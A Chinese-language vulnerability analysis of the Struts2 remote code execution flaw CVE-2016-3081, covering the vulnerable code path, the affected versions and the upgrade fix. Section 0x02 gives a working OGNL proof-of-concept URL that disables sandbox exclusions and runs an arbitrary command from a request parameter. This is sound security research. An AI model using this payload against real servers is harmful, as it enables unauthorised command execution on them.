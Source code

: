 # Struts2方法调用远程代码执行漏洞（CVE-2016-3081）分析

0x00 漏洞简述
=========

* * *

2016年4月21日Struts2官方发布两个CVE，其中CVE-2016-3081官方评级为高。主要原因为在用户开启动态方法调用的情况下，会被攻击者实现远程代码执行攻击。从我自己搜索的情况来看，国内开启这个功能的网站不在少数，所以这个“Possible Remote Code Execution”漏洞的被打的可能性还是很高的。

0x01 漏洞原理
=========

* * *

直接进行版本比对，我们可以看到针对这个问题，只对DefaultActionMapper.java这个文件进行了修改，修改内容如下：

![enter image description here](http://drops.javaweb.org/uploads/images/14430c7c76de88833d8b8c57274f85347f0d970d.jpg)

我们可以看到只是把method成员变量的值进行了一次过滤，cleanupActionName这个方法是在对“action:”滥用的问题进行添加的，禁止了绝大多数的特殊字符。但是在后来的版本变更中忽略了之前的问题，将method也引入了Ongl表达式，代码在DefaultAction.java的invokeAction中：

```
protected String invokeAction(Object action, ActionConfig actionConfig) throws Exception {
    String methodName = proxy.getMethod();

    if (LOG.isDebugEnabled()) {
        LOG.debug("Executing action method = #0", methodName);
    }

    String timerKey = "invokeAction: " + proxy.getActionName();
    try {
        UtilTimerStack.push(timerKey);

        Object methodResult;
        try {
            methodResult = ognlUtil.getValue(methodName + "()", getStack().getContext(), action);

```

我们可以看到methodName被带入到getValue了，熟悉Struts相关漏洞的朋友应该都明白这是什么意思，虽然后面被强制添加了一对圆括号，但是想办法语法补齐就好了。相对应的我们来看下在2.3.18版本之前的代码是怎么处理methodName的：

```
protected String invokeAction(Object action, ActionConfig actionConfig) throws Exception {
    String methodName = proxy.getMethod();

    if (LOG.isDebugEnabled()) {
        LOG.debug("Executing action method = #0", methodName);
    }

    String timerKey = "invokeAction: " + proxy.getActionName();
    try {
        UtilTimerStack.push(timerKey);

        boolean methodCalled = false;
        Object methodResult = null;
        Method method = null;
        try {
            method = getAction().getClass().getMethod(methodName, EMPTY_CLASS_ARRAY);

```

在这里使用的是反射，所以在这个漏洞发布的时候，我曾一瞬间觉得又是一个骗CVE的鸡肋，但是事实上，这是一个威胁很大的漏洞。但是官方说的受影响版本`Struts 2.0.0 - Struts Struts 2.3.28 (except 2.3.20.2 and 2.3.24.2)`是不严谨的，应该是`2.3.18-2.3.28(except 2.3.20.2 and 2.3.24.2)`。

0x02 漏洞利用
=========

* * *

利用方式主要难点在于两个地方，一个是上文提到的对于表达式最后的圆括号给予正确的表达式意义。另一个就是在传输过程中method会经过一次转义，双引号和单引号的没有办法使用了，所以需要找到一个绕过。剩下的就是原来套沙盒绕过，命令执行的那套东西了。

对于圆括号，可以直接使用`new java.lang.String`这样来拼接成`new java.lang.String()`构成正确Ognl语法。

至于不能使用引号的话，命令执行我们可以使用引用参数的方法来完成对字符串的提取，例如：使用#parameters.cmd来提取http的cmd参数。测试PoC如下：

> http://172.16.107.143:8080/Struts2_3_18/hello.action?cmd=gedit&method:(%23_memberAccess).setExcludedClasses(@java.util.Collections@EMPTY_SET),(%23_memberAccess).setExcludedPackageNamePatterns(@java.util.Collections@EMPTY_SET),%23cmd%3d%23parameters.cmd,%23a%3dnew%20java.lang.ProcessBuilder(%23cmd).start().getInputStream(),new java.lang.String

效果如下图所示：

![enter image description here](http://drops.javaweb.org/uploads/images/10c1fac889ccce6fb461af8e7a5a577e984be5af.jpg)

这里我小小的猜测一下，官方发布的日期是20，而漏洞提交team做宣传是在4月25日，那么是不是在提交CVE时还没有完成弹计算器的利用，还是为了符合漏洞提交规范做的延时？小八卦一下O(∩_∩)O。

0x03 漏洞总结
=========

* * *

虽然现在CVE已经发布，但是从目前网络情况上（twitter和微博）来看，并没有安全研究人员关注到这两个CVE，可能是因为官方发布过太多鸡肋的CVE了，国内的各路炒洞高手已经对Struts2麻木了。所以目前的情况是属于漏洞存在那里，发了CVE，但是没有任何人去研究利用，发布相关分析。这个漏洞和Struts2前N次被炒的热热闹闹的漏洞影响和危害相比，真是不可同日而语，这个漏洞真的很实在。

看到这里，打算磨拳擦掌要去调回显PoC的朋友们，这里我要在提醒一次。虽然我在之前说了存在这个问题的站点很多，但是这个漏洞存在版本限制，在Struts2.3.18及其以上的版本才可以触发。而国内大多数的站点由于Struts在2.3.16之后再也没有出现过大的问题，所以绝大多数停留在2.3.16这个版本，这让这个看似很不错的漏洞略显鸡肋了。

**防护方案**

目前官方已经推出了`2.3.20.2、2.3.24.2`和`2.3.28.1`修复了这个问题，大家可以针对自己所使用的版本进行升级。下载地址：[https://struts.apache.org/download.cgi#struts23281](https://struts.apache.org/download.cgi#struts23281)
